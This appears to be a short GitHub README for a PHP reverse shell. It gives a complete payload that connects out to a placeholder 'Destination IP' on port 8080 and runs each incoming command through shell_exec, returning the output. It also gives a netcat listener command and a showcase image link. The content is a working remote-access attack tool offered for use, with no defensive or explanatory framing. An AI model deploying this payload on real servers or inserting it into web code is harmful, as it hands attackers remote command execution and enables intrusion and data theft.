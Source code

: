 # PHP-Reverse-Shell
# Payload
```php
<?php
$sock = fsockopen("Destination IP", 8080);
if ($sock) {
    fwrite($sock, "github.com/9dl\n");
    fwrite($sock, "Connected!\n");
    while (!feof($sock)) {
        $cmd = trim(fgets($sock));
        if ($cmd === 'exit') break;
        $output = shell_exec($cmd . " 2>&1");
        fwrite($sock, $output);
    }
    fclose($sock);
}
?>
```
# Listener
```php
nc -lvnp 8080
```
# Showcase
![image](https://github.com/user-attachments/assets/0b99c7d1-4695-4e88-b367-6d62e7f5ae0c)
